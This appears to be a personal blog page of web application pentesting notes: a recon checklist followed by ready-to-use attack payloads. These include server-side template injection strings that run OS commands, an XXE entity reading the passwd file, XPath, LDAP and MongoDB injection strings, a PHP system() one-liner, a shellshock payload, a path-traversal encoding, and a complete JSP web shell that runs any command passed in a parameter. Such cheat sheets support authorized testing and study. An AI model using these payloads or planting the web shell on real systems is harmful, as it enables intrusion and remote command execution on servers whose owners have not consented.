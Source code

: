 ```yaml
---
title: Web Application Methodology
date: 2021-09-19
categories:
  - Notes
tags:
  - Web App
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


<h2 id="wtdvsawbapp">What to do vs a Web App</h2>

<ul>
    <li>check website is it php,asp or html</li>
    <li>check source code does it use cms</li>
    <li>Check robots.txt</li>
    <li>chech cert for useful info - subdomain?</li>
    <li>Gobuster dir and subdomain</li>
    <li>nikto</li>
    <li>Authorization vulns</li>
    <li>Code Injections? - can you control an input/data - eval(input)</li>
    <li>sqli? - https://www.hackingarticles.in/bypass-filter-sql-injection-manually/</li>
    <li>xxs?</li>
    <li>WIP</li>
    <li>SSRF</li>
    <li>Server-side template injection - {{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}} or {{url_for.__globals__.os.popen("id").read() }}</li>
    <li>xml entities - <!DOCTYP3 test [
      <!ENTITY x SYSTEM "file:///etxc/paxswd">]></li>
      <li>xpath - hacker']%00 or hacker' or 1=1]%00 --- ?name=hacker' or 1=1]/parent::*/child::node()%00&password=sdf</li>
</ul>

<h2>ldap</h2>
<li>null bind - delete username&password data in body</li>
<li>ldap wildcard - adm*))%00</li>

<h2>mongodb</h2>
<li>injection? - hyst'|| 1==1 %00</li>


<h2>basic php oneliner</h2>
<code>php system($requests['hyst']); ?></code>



<h2>shellshock</h2>
<code>() { :;}; echo; `command`</code>
<p>echo to add a black space between headers and body output</p>

<h2>JWT</h2>
<p>header.data.signature - all in base64</p>

<h2>apache and tomcat</h2>
<p>encoding of .. = %252e%252e</p>
<p>/manager/html</p>

<fieldset>
  
  <legend>webshell</legend>
  <pre><code>
    <FORM METHOD=GET ACTION='index.jsp'>
    <.INPUT name='cmd' type=text>
    <.INPUT type=submit value='Run'>
    <./FORM>
    <%@ page import="java.io.*" %>
    <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+"<./br>"; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <.pre><%=output %><./pre></code></pre>

      <p>remove dots after "<" </p>

</fieldset>


g0tmilk
